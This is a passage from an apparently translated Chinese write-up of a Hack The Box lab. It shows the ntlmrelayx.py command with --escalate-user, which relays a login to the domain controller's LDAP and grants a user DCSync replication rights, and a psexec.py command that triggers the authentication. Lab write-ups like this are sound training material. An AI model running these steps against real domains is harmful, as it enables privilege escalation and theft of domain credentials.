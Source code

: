 ![](img/4868706cc916a320d9f3cb74423243c8.png)

2.使用`--escalate-user`标志运行`ntlmrelayx.py`中间人(“mitm”)工具。这实际上是当它识别出“bigb0ss”用户在同一网络上的登录尝试时，它将自动检查用户权限，如果它可以修改域 ACL，它将修改用户权限，以向用户帐户添加`Replication-Get-Changes-All`权限，这可以执行 DCSync。

```
**[My Kali Box] - Screen #1**$ ntlmrelayx.py -t ldap://10.10.10.161 --escalate-user bigb0ss
```

![](img/0fbcb720330d9c8033e5156016190976.png)

3.然后，我们将使用“bigb0ss”帐户进行随机身份验证。在这种情况下，我使用`psexec.py`对我自己的 Kali box 进行了一次认证尝试。

```
**[My Kali Box] - Screen #2**$ psexec.py htb.local/bigb0ss:bigb0ss@10.10.14.39
```
